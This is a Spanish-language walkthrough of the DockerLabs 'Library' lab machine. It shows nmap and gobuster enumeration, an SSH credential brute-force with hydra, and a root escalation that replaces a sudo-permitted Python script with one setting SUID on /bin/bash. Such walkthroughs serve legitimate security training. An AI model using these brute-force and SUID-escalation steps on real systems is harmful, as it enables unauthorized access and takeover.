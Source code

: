 ```yaml
---
icon: flag
---
```


# Library DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip library.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh library.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-17 12:06 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000031s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
|_  256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.52 seconds
```

Si entramos en la `web` veremos poca cosa, ya que es un `apache2` normal, por lo que haremos un poco de `fuzzing` para ver que encontramos:

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.txt        (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 26]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos que hay un `index.php` que si entramos dentro veremos una web que pone en grande la siguiente palabra:

```
JIFGHDS87GYDFIGD
```

Por lo que podemos deducir que puede ser las credenciales de algun usuario del sistema, por lo que vamos a realizar un ataque de fuerza bruta con una lista de usuarios con `hydra`:

## Escalate user carlos

### Hydra

```shell
hydra -L <WORDLIST> -p JIFGHDS87GYDFIGD ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-17 12:23:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 624370 login tries (l:624370/p:1), ~9756 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Vemos que nos saca las credenciales de un usuario, por lo que nos conectaremos a el mediante `ssh`:

### SSH

```shell
ssh carlos@<IP>
```

Metemos como contraseña `JIFGHDS87GYDFIGD` y veremos que estamos dentro con dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for carlos on 2f110a30d52f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User carlos may run the following commands on 2f110a30d52f:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Vemos que podemos ejecutar el script `/opt/script.py` como el usuario `root` por lo que haremos lo siguiente:

```shell
ls -la /opt/
```

Si listamos para ver que permisos tiene, vemos lo siguiente:

```
total 12
drwxr-xr-x 1 carlos root 4096 May  7  2024 .
drwxr-xr-x 1 root   root 4096 Jan 17 17:05 ..
-r-xr--r-- 1 carlos root  272 May  7  2024 script.py
```

Vemos que nosotros somos el propietario del script, por lo que podremos hacer lo siguiente:

```shell
rm /opt/script.py
```

Y creamos un script llamado de la misma forma:

```shell
nano /opt/script.py

#Dentro del nano
import os
import stat

# Ruta del binario al que quieres asignar SUID
binary_path = "/bin/bash"

def set_suid(binary):
    try:
        # Obtener los permisos actuales del archivo
        current_permissions = os.stat(binary).st_mode

        # Añadir el bit SUID a los permisos
        new_permissions = current_permissions | stat.S_ISUID

        # Cambiar los permisos del archivo
        os.chmod(binary, new_permissions)

        print(f"Permisos SUID asignados correctamente a {binary}.")
    except PermissionError:
        print("Error: Se necesitan privilegios de superusuario para ejecutar este script.")
    except FileNotFoundError:
        print(f"Error: El archivo {binary} no se encontró.")
    except Exception as e:
        print(f"Error inesperado: {e}")

# Ejecutar la función
set_suid(binary_path)
```

Lo guardamos y haremos lo siguiente:

```shell
sudo python3 /opt/script.py
```

Info:

```
Permisos SUID asignados correctamente a /bin/bash.
```

Ahora si listamos la `bash`:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Vemos que ha funcionado, por lo que solo tendremos que hacer lo siguiente:

```shell
bash -p
```

Con esto ya seremos `root`, por lo que habremos terminado la maquina.
